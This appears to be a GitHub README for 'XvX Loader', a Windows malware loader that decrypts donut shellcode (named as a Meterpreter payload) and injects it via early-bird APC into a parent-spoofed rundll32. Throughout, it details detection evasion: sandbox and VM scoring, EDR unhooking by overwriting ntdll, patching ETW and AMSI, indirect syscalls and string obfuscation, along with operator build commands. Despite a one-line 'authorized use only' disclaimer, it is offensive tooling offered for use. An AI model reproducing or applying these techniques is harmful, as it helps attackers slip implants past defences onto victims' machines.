

# XvX Loader




Multi-stage Windows loader. Takes a [donut](https://github.com/TheWover/donut) shellcode, AES-256-CBC decrypts it at runtime, and injects it via early-bird APC into a `rundll32.exe` spawned under `explorer.exe`. All sensitive NT operations go through indirect syscalls.

---

## Architecture

```
malware.exe
    └── donut → shellcode.bin
        └── encrypt_payload.exe → shellcode_aes.bin + key_iv.txt
            └── build.ps1 → embeds key+IV+shellcode into loader_v3.c → Loader.exe
```

---

## Modules

| Module              | Technique                                                                                           |
| ------------------- | --------------------------------------------------------------------------------------------------- |
| `syscalls.c`        | Fresh NTDLL load, ROR13 hash resolution, SSN extraction, 12 NT wrappers                             |
| `dosyscall.S`       | x64 indirect syscall stubs                                                                          |
| `injection.c`       | Early-bird APC: CREATE_SUSPENDED → NtAllocate → NtWrite → NtQueueApc → NtResume                     |
| `unhooking.c`       | NTDLL .text overwrite from disk                                                                     |
| `etw_bypass.c`      | Patch `EtwEventWrite` + `EtwEventWriteEx` to `ret`                                                  |
| `amsi_bypass.c`     | Patch `AmsiScanBuffer` in `amsi.dll`                                                                |
| `sandbox_evasion.c` | Scoring: VM reg/fs, PEB debugger, NtQueryInformationProcess, CPU/RAM/disk, uptime, idle, proc count |
| `ppid_spoofing.c`   | `UpdateProcThreadAttribute` PROC_THREAD_ATTRIBUTE_PARENT_PROCESS                                    |
| `obfuscation.c`     | XOR string obfuscation, adaptive sleep, junk API calls                                              |
| `crypto.c`          | AES-256-CBC via BCrypt                                                                              |

---

## Workflow

### Phase 1 — Payload preparation (operator side)

```
[1] Compile payload PE
      x86_64-w64-mingw32-gcc payload.c -o payload.exe

[2] Convert PE → PIC shellcode
      donut.exe -i payload.exe -o payload/meterpreter.bin
      └── Generates self-contained position-independent shellcode

[3] Encrypt shellcode (AES-256-CBC)
      encrypt_payload.exe payload/meterpreter.bin
      ├── Generates random 256-bit key + 128-bit IV
      ├── Outputs: shellcode_aes.bin  (ciphertext)
      └── Outputs: key_iv.txt         (key + IV, hex)

[4] Embed & compile loader
      build.ps1
      ├── Reads key_iv.txt → inserts BYTE arrays into loader_v3.c
      ├── Reads shellcode_aes.bin → embeds 162 976-byte ciphertext blob
      └── Compiles → output/Loader.exe  (stripped, -O2, no console)
```

### Phase 2 — Runtime execution on target

```
[1] SetupEnvironment
      ├── FreeConsole()          — no visible window
      └── Benign API calls       — dilute suspicious import ratio for ML scanners

[2] AntiSandboxDelay (120s)
      ├── QueryPerformanceCounter before Sleep(120 000ms)
      ├── QueryPerformanceCounter after
      └── Elapsed < 90% of expected → time acceleration detected → exit

[3] RunEvasionChecks  (composite scoring, threshold = 50)
      ├── CheckVirtualMachine()  — VMware/VBox/Hyper-V registry keys + driver files
      ├── CheckDebugger()        — PEB.BeingDebugged + NtQueryInformationProcess(ProcessDebugPort)
      ├── CheckHardware()        — CPU cores < 2 / RAM < 4 GB / disk < 80 GB
      ├── CheckUptime()          — system uptime < 10 min
      ├── CheckUserActivity()    — GetLastInputInfo, no idle activity
      ├── CheckProcessCount()    — fewer than 50 running processes
      └── score ≥ 50 → exit silently

[4] UnhookEDR
      ├── Open ntdll.dll from disk
      ├── Parse PE headers → locate .text section
      └── VirtualProtect RW → memcpy clean .text over hooked in-memory copy → restore RX

[5] BypassTelemetry
      ├── ETW  — GetProcAddress(EtwEventWrite / EtwEventWriteEx) → patch first byte to C3 (ret)
      └── AMSI — GetProcAddress(AmsiScanBuffer in amsi.dll)      → patch first byte to C3 (ret)

[6] DecryptAndInject
      ├── Resolve indirect syscalls
      │     ├── XOR-deobfuscate NT function names (key 0x42)
      │     ├── Load fresh ntdll.dll from disk → parse Export Directory
      │     ├── Extract SSN from stub (mov r10,rcx / mov eax,<SSN> pattern)
      │     └── Locate "syscall; ret" gadget (0F 05 C3) for indirect dispatch
      │
      ├── Decrypt shellcode
      │     └── BCryptDecrypt(AES-256-CBC, embedded key+IV) → plaintext shellcode in memory
      │
      └── APC injection with PPID spoofing
            ├── OpenProcess(explorer.exe) → attribute list
            ├── CreateProcess(rundll32.exe, CREATE_SUSPENDED, parent=explorer)
            ├── NtAllocateVirtualMemory   → RWX region in target process
            ├── NtWriteVirtualMemory      → copy shellcode
            ├── NtQueueApcThread          → register shellcode as APC on suspended thread
            └── NtResumeThread            → thread enters alertable state → shellcode runs
```

---

## Build

**Requirements:** MinGW-w64, PowerShell 7+, `donut.exe`

**Step 1 — Generate shellcode**

```sh
x86_64-w64-mingw32-gcc payload.c -o payload.exe -lws2_32 -mwindows
donut.exe -i payload.exe -o payload/meterpreter.bin
```

**Step 2 — Build**

```powershell
# Production (stripped, -O2, no console)
.\build.ps1

# Debug (verbose, console, sandbox scoring disabled)
.\build.ps1 -Mode debug

# Custom output name
.\build.ps1 -Mode prod -OutputName Loader.exe
```

Output: `output/Loader.exe`

**Rebuild `encrypt_payload.exe`** (only if `crypto.c` changed):

```sh
gcc tools/encrypt_payload.c modules/crypto.c -o tools/encrypt_payload.exe -lAdvapi32
```

---

## Dependencies

- MinGW-w64, Windows SDK headers
- `advapi32`, `ntdll`, `user32`, `ws2_32`
- [donut v1](https://github.com/TheWover/donut) — PE → shellcode
- No external C libraries

---

> **For authorized use only.**
